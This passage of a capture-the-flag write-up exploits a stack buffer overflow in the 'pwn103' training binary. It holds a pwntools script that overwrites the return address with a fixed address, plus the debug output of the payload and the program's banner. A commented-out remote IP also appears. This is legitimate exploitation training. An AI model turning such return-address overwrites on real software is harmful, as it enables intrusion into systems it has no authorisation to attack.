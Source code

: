 ```bash
```

But it doesn't work, so it was decided to build directly with a script also for the remote version.

Build and run the `exploit` script and use the *pwntools* library.

`exploit`

```python
#!/usr/bin/env python3

from pwn import context, ELF, process, remote

exe = './pwn103'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

#REMOTE, PORT = '10.10.79.209', 9003
#io=remote(REMOTE, PORT)
io=process([exe])

io.sendlineafter(b'Choose the channel:', b'3')
io.sendline(b"A"*0x20 + b"B"*0x8 + b"\x5c\x15\x40\x00\x00\x00\x00\x00")
io.interactive()

```

Result:

```bash
$ ./exploit
...
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  5c 15 40 00  00 00 00 00  │BBBB│BBBB│\·@·│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
 [DEBUG] Received 0xe3 bytes:
    00000000  0a f0 9f 97  a3 20 20 47  65 6e 65 72  61 6c 3a 0a  │····│·  G│ener│al:·│
    00000010  0a 2d 2d 2d  2d 2d 2d 5b  6a 6f 70 72  61 76 65 65  │·---│---[│jopr│avee│
    00000020  6e 5d 3a 20  48 65 6c 6c  6f 20 70 77  6e 65 72 73  │n]: │Hell│o pw│ners│
    00000030  20 f0 9f 91  8b 0a 2d 2d  2d 2d 2d 2d  5b 6a 6f 70  │ ···│··--│----│[jop│
    00000040  72 61 76 65  65 6e 5d 3a  20 48 6f 70  65 20 79 6f  │rave│en]:│ Hop│e yo│
    00000050  75 27 72 65  20 64 6f 69  6e 67 20 77  65 6c 6c 20  │u're│ doi│ng w│ell │
    00000060  f0 9f 98 84  0a 2d 2d 2d  2d 2d 2d 5b  6a 6f 70 72  │····│·---│---[│jopr│
    00000070  61 76 65 65  6e 5d 3a 20  59 6f 75 20  66 6f 75 6e  │avee│n]: │You │foun│
    00000080  64 20 74 68  65 20 76 75  6c 6e 2c 20  72 69 67 68  │d th│e vu│ln, │righ│
    00000090  74 3f 20 f0  9f a4 94 0a  0a 2d 2d 2d  2d 2d 2d 5b  │t? ·│····│·---│---[│
    000000a0  70 77 6e 65  72 5d 3a 20  54 72 79 20  68 61 72 64  │pwne│r]: │Try │hard│
    000000b0  65 72 21 21  21 20 f0 9f  92 aa 0a 0a  f0 9f 91 ae  │er!!│! ··│····│····│
    000000c0  20 20 41 64  6d 69 6e 73  20 6f 6e 6c  79 3a 0a 0a  │  Ad│mins│ onl│y:··│
    000000d0  57 65 6c 63  6f 6d 65 20  61 64 6d 69  6e 20 f0 9f  │Welc│ome │admi│n ··│
    000000e0  98 84 0a                                            │···│
    000000e3

🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: Try harder!!! 💪
```